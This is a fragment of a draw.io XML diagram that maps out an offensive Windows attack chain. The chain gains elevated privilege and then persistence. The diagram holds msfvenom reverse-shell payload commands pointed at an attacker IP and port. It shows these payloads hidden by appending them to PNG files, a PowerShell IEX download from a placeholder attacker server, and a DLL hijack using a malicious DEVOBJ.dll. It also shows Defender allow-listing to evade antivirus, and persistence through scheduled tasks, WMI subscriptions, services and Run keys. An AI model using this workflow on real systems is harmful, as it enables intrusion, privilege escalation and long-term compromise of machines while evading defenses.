        <mxCell id="P6aCfQ930mBBJoiv-hOj-8" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-1" target="P6aCfQ930mBBJoiv-hOj-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-26" value="Registry&lt;br&gt;Run Key" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="60" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-27" value="Startup&lt;br&gt;Folder" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="162" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-0" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-30" target="P6aCfQ930mBBJoiv-hOj-47">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-30" value="Update EOP Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="40" width="1300" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-33" value="DEVOBJ.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-34" value="Medium IL Tools Directory&#xa;(Reverse_9101.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-33" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-35" value="9101.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="550" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-36" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-37" value="Port (9101)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-35" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-38" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="710" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-41" value="9101.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="370" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-42" value="Medium IL Tools Directory&#xa;(9101.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="P6aCfQ930mBBJoiv-hOj-41" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-43" value="EOP.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-30" vertex="1">
          <mxGeometry x="30" y="40" width="140" height="90" as="geometry">
            <mxRectangle x="-827" y="400" width="90" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-44" value="Medium IL Tools Directory&#xa;(DEVOBJ.dll)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-45" value="Medium IL Tools Directory&#xa;(Allow-list A/V)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="P6aCfQ930mBBJoiv-hOj-43" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-39" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="P6aCfQ930mBBJoiv-hOj-30" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="480" y="110" as="targetPoint" />
            <mxPoint x="315" y="230" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-47" target="P6aCfQ930mBBJoiv-hOj-54">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-47" value="Compile EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="250" width="880" height="170" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-52" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-53" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-47" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-22" value="Compile EXE / DLL" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-47">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-23" value="EOP.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-22">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-24" value="9001.cpp&lt;br&gt;" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-22">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-25" value="DEVOBJ.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-22">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-54" target="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-54" value="Stage EOP Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="-1230" y="460" width="580" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-55" value="EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-56" value="9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-58" value="9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-54" vertex="1">
          <mxGeometry x="450" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-26" value="DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="P6aCfQ930mBBJoiv-hOj-54">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-2" value="Execute EOP Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="-1230" y="620" width="990" height="330" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-3" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-4" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/EOP.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-5" value="Execute EOP.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-6" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-3" target="c0Sctn81WB5nrNk0CtNy-5">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-28" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-9" target="c0Sctn81WB5nrNk0CtNy-27">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-9" value="Create &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="370" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-10" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-5" target="c0Sctn81WB5nrNk0CtNy-9">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-30" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-27" target="c0Sctn81WB5nrNk0CtNy-29">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-27" value="Copy legitimate fsavailux.exe to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="370" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-32" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-29" target="c0Sctn81WB5nrNk0CtNy-31">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-29" value="Copy malicious DEVOBJ.dll to &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="530" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-34" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-31" target="c0Sctn81WB5nrNk0CtNy-33">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-31" value="Execute fsavailux.exe from &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="530" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-38" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-35">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-40" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-39">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-43" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-33" target="c0Sctn81WB5nrNk0CtNy-42">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-33" value="DLL Hijack through malicious DEVOBJ.dll" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="690" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-37" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" edge="1" parent="c0Sctn81WB5nrNk0CtNy-2" source="c0Sctn81WB5nrNk0CtNy-35" target="c0Sctn81WB5nrNk0CtNy-36">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-35" value="Execute 9101.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="690" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-36" value="Read Payload From 9101.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="840" y="120" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-16" value="High IL&lt;br&gt;Reverse Shell" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="840" y="85" width="120" height="35" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-39" value="Delete &quot;Gapped&quot; Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="840" y="190" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-42" value="Allow-list Medium IL Tools directory for Defender" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" vertex="1" parent="c0Sctn81WB5nrNk0CtNy-2">
          <mxGeometry x="690" y="262" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="c0Sctn81WB5nrNk0CtNy-44" value="Establish High IL&amp;nbsp;&lt;br&gt;/ SYSTEM Persistence" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="140" y="790" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-0" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="940" width="1520" height="200" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-1" value="Pers_High.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="30" y="110" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-2" value="High IL Tools Directory&#xa;(9201.exe / 9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-5" value="9201.raw / 9202.raw / 9203.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="730" y="90" width="180" height="90" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-6" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-5">
          <mxGeometry y="30" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-7" value="Port (9201 / 9202 / 9203)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-5">
          <mxGeometry y="60" width="180" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-8" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="930" y="90" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-3" value="9201.cpp / 9202.cpp / 9203.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="500" y="90" width="190" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-4" value="High IL Tools Directory&#xa;(9201.png / 9202.png / 9203.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-3">
          <mxGeometry y="30" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-9" value="Scheduled_Task_Template.xml" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="260" y="90" width="193" height="70" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-10" value="High IL Tools Directory&#xa;(9202.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-9">
          <mxGeometry y="30" width="193" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-11" value="Scheduled Task (every 2 min)" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="260" y="50" width="193" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-12" value="WMI Event Sub. (every min.)" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="30" y="70" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-13" value="Services (on-demand)" style="shape=trapezoid;perimeter=trapezoidPerimeter;whiteSpace=wrap;html=1;fixedSize=1;strokeColor=#000000;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-0">
          <mxGeometry x="30" y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-14" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" vertex="1" parent="WIyWlLk6GJQsqaUBKTNV-1">
          <mxGeometry x="470" y="1200" width="880" height="210" as="geometry" />
        </mxCell>
        <mxCell id="Op0RA1QyIyzGp62vVNNJ-19" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" vertex="1" parent="Op0RA1QyIyzGp62vVNNJ-14">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
